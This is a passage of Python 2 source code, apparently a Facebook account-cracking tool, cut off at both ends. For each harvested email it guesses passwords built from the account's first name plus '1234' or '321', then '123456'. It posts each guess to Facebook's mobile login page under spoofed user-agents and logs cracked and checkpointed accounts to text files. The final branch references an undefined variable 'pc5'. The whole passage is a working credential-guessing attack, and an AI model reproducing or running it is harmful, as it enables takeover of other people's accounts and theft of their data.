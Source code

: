 						oke.close()
						oks.append(em)
					else:
						if 'checkpoint' in xo:
							print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pr2
							cek = open('done/follow.txt', 'a')
							cek.write('\n   [CP] '+em+' • '+pr2)
							cek.close()
							CP.append(em)
						else:
							pr3 = v['first_name'].lower()+'1234'
							rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pr3, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 6.0.1; SM-G532G Build/MMB29T) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/63.0.3239.83 Mobile Safari/537.36"})
							xo = rex.content
							if 'mbasic_logout_button' in xo or 'save-device' in xo:
								print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pr3
								oke = open('done/follow.txt', 'a')
								oke.write('\n   [OK] '+em+' • '+pr3)
								oke.close()
								oks.append(em)
							else:
								if 'checkpoint' in xo:
									print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pr3
									cek = open('done/follow.txt', 'a')
									cek.write('\n   [CP] '+em+' • '+pr3)
									cek.close()
									CP.append(em)
								else:
									pr4 = v['first_name'].lower()+'321'
									rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pr4, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
									xo = rex.content
									if 'mbasic_logout_button' in xo or 'save-device' in xo:
										print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pr4
										oke = open('done/follow.txt', 'a')
										oke.write('\n   [OK] '+em+' • '+pr4)
										oke.close()
										oks.append(em)
									else:
										if 'checkpoint' in xo:
											print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pr4
											cek = open('done/follow.txt', 'a')
											cek.write('\n   [CP] '+em+' • '+pr4)
											cek.close()
											CP.append(em)
										else:
											pr5 = '123456'
											rex = requests.post("https://mbasic.facebook.com/login.php", data = {"email" : em, "pass" : pr5, "login" : "submit"}, headers = {"user-agent" : "Mozilla/5.0 (Linux; Android 7.0; SM-G610M Build/NRD90M) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/69.0.3497.100 Mobile Safari/537.36"})
											xo = rex.content
											if 'mbasic_logout_button' in xo or 'save-device' in xo:
												print '\033[0;97m   [OK]\033[0;97m '+em+' \033[0;97m• \033[0;97m'+pc5
												oke = open('done/like.txt', 'a')
												oke.write('\n   [OK] '+em+' • '+pc5)
												oke.close()
												oks.append(em)
											else:
												if 'checkpoint' in xo:
													print '\033[0;97m   [CP]\033[0;97m '+em+' \033[0;97m•\033[0;97m '+pc5
													cek = open('done/like.txt', 'a')
													cek.write('\n   [CP] '+em+' • '+pc5)